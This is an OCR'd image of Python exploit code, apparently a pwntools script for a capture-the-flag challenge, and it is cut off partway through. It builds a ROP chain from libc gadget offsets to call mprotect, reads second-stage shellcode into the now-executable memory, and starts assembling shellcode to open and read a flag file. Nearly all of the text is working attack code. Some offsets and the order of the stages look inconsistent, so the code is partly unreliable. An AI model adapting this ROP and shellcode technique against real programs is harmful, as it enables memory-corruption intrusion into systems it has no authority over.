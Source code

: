 ```python

    # libc_base_offset 0x1f4a0
    # 0x000c1e55 : syscall ; ret
    # 0x000293b8 : pop rax; ret
    # 0x00005365 : pop rsi; ret
    # 0x0009da40 : pop rdx; ret
    # 0x0000367a : pop rdi; ret

    libc_base = 0x7ffff7a15000

    syscal = p64(libc_base + 0xc1e65)
    binsh = p64(libc_base +  0x000000000017CCDB)

    libc_base += 0x1f4a0
        
    poprax = p64(libc_base + 0x000293b8)
    poprsi = p64(libc_base + 0x00005365)
    poprdi = p64(libc_base + 0x0000367a)
    poprdx = p64(libc_base + 0x0009da40)

    # rop chain starts here
    # mprotect chain
    buf += poprax
    buf += p64(0xa)
    buf += poprdi
    buf += p64(0x00601000)
    buf += poprsi
    buf += p64(0x1000)
    buf += poprdx
    buf += p64(0x7)
    buf += syscal

    # read chain: read shellcode from user
    buf += poprax
    buf += p64(0x0)
    buf += poprdi
    buf += p64(6)
    buf += poprsi
    buf += p64(0x00601000)      # write shellcode here
    buf += poprdx
    buf += p64(0x100)
    buf += syscal

    # return to payload
    buf += p64(0x00601000)

    print "sending stage 1"
    r.send(buf)

    print "hit enter to send stage 2"
    raw_input()

    # read flag
    stage2 = ""
    stage2 += asm("mov rax, 0x0")
    stage2 += asm("mov rdi, 0x6")
    stage2 += asm("mov rsi, 0x00601090")
    stage2 += asm("mov rdx, 0x10")
    stage2 += asm("syscall")

    # open flag
    stage2 += asm("mov rax, 0x2")
    stage2 += asm("mov rdi, 0x00601090")
```